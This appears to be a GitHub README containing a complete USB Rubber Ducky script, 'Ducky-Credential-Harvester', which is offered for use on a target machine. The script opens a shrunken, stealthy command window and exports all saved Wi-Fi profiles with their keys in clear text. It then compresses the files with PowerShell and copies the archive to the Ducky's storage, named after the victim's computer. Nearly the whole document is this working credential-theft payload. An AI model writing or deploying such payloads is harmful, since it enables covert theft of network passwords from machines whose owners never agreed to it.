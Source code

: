 ## Ducky-Credential-Harvester
Short credential harvester for the USB-Rubber-Ducky (Hak5). Requires the Twin-Duck Firmware flashed on it.
TwinDuck: is a Firmware to be flashed on the Ducky via Arduino IDE, wich enables HID and Flashdrive regisstration on the Ducky

--> Enables credential saving on the Ducky itsself

Source: https://github.com/hak5darren/USB-Rubber-Ducky

Guide to Flash TwinDuck: https://www.youtube.com/watch?v=jemPgO_eNeg

REM: these lines arent going to be processed

DELAY 2000

GUI d

REM --> delay for 2 seconds to get the drivers on the target machine running. Closes all Tabs (GUI=WindowsKey)

DELAY 150

GUI r

DELAY 400

STRING cmd

ENTER

DELAY 500

STRING color FE & mode con:cols=18 lines=1

ENTER

REM -->(optional) stealthy...

STRING mkdir A

ENTER

STRING cd A

ENTER

REM --> Sets up the credentials Directory "A" on the Desktop - navigates into it 

STRING netsh wlan export profile key=clear

ENTER

DELAY 200

STRING cd ..

ENTER

REM --> exports all Saved wlan profiles to "A" and navigates back (!!requiers administrative privileges!!)

STRING powershell

ENTER

STRING Compress-Archive -Path A -DestinationPath A.zip

ENTER

STRING copy A.zip D:\%computername%-wifi-passwords.zip

ENTER

GUI d

REM --> Compresses .xml files into .zip via powershell and copys the credentials to the Duckys directory with the targets name in it. Minimizes all tabs.

REM --> Execution time: arround 3-5 seconds. Delays commonly need to be longer the older your target machine is.

